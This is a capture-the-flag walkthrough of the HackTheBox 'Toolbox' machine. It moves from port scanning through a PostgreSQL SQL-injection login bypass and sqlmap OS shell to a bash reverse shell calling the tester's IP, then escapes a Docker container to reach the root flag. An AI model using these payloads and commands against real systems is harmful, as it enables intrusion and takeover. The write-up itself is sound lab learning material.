# Hackthebox - Toolbox

- Windows



- [Box on Hackthebox](https://app.hackthebox.com/machines/452)

## Nmap

```bash
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:1a:a1:81:99:ea:f7:96:02:19:2e:6e:97:04:5a:3f (RSA)
|   256 a2:4b:5a:c7:0f:f3:99:a1:3a:ca:7d:54:28:76:b2:dd (ECDSA)
|_  256 ea:08:96:60:23:e2:f4:4f:8d:05:b3:18:41:35:23:39 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.38 ((Debian))
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: MegaLogistics
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
| Not valid before: 2020-02-18T17:45:56
|_Not valid after:  2021-02-17T17:45:56
|_http-server-header: Apache/2.4.38 (Debian)
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-03-12T00:02:14
|_  start_date: N/A
|_clock-skew: -1s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 148.07 seconds
```

- Let's add `admin.megalogistic.com` and `megalogistic.com` to our hosts file.

## FTP

- Anonymous FTP is allowed and we have on file on the target. Let's take it `curl --user anonymous:anonymous -o docker-toolbox.exe ftp://10.10.10.236/docker-toolbox.exe`

## Webserver

If we go to https://admin.megalogistic.com/ we have a login panel



If we put a quote in the user field we can generate a sql error  

  

- It is using `pg_query` so it is postgres sql.
- Let's try to do the most common bypass authentication payload except we translate it in postgresql this does the trick `username='+or+1=1--&password=aaa`

  

- In the browser it looks like this



If we google the "uplusion23" we find a github user https://github.com/uplusion23. if we have a look at his github page https://uplusion23.github.io/ we find his portfolio and then we can have a look at the admin panel on CodePen [here](https://codepen.io/uplusion23/pen/yzBbXj)

- We have a todo list and a list of users

  

## subdomain





## Shell as postgresql

If we use sqlmap we can get a shell on the target `sqlmap -r request -p username --os-shell`  
To get the request file we just need to right click in the burp request and select save item  


Here is the shell we get  

If we ls on hone we have a user named tony.  
When looking around a little we find the user flag `/var/lib/postgresql/user.txt`

- We also find an .ssh folder with a known_hosts file
- We can try to add our pu
- Something weird is that if we cat /etc/passwd we do not find the user tony we found in /home. However the folder tony belongs to root so our root user might be named tony
- Also this seems to be a docker instance.
- Let's get a reverse shell we set a listener `rlwrap nc -nlvp 1234` this way we will get a more verbose shell in case of errors
- then we launch this from our previous prompt `bash -c 'bash -i >& /dev/tcp/10.10.14.5/1234 0>&1'`
- uname -a gives `command standard output: 'Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU/Linux'` so we loopback to this boot2docker
- We know it uses this docker: https://github.com/boot2docker/boot2docker
- So If we want to escape docker we can ssh as docker to 172.17.0.1 `ssh docker@172.17.0.1` (we can check ifconfig for this)
- We get a shell this way (the users and pass are in the git above)
- The difficulty here is that we need to upgrade our shell and be quick because we loose the shell every few minutes.
- Here is how to upgrade our shell (thanks to my friend Brianlane for the support on this part)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
// Open a notepad to keep the info about term and rows and cols
// Background our nc / rlwrap nc connection
Ctrl - z 
// Get our current terminal  version and write it into our notepad
echo $TERM
tmux-256color
// Get our current terminal  dimensions
stty -a
// Write them down
rows 52; columns 166;
// Enable standard terminal commands
stty raw -echo;fg
//Reset the shell so we can configure it with our current settings
reset
//Enter the terminal info we noted earlier
Terminal type?
xterm-256color
stty rows 38 columns 190
```

- When we loose our shell and need to get it back we can repeat these steps just this way

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
// Background our nc / rlwrap nc connection
Ctrl - z 
// Enable standard terminal commands
stty raw -echo;fg
//Reset the shell so we can configure it with our current settings
reset
//Enter the terminal info we noted earlier
Terminal type?
xterm-256color
stty rows 38 columns 190
```

- And ssh again `ssh docker@172.17.0.1`



- If we `sudo -l` we can see that it allows to `sudo su` without having to enter any password.
- The flag is not in the root folder
- If we go back we find a c directory with a Users folder in it that looks a lot like a win file system

- If we go to Administrator/Desktop we can get the root flag  

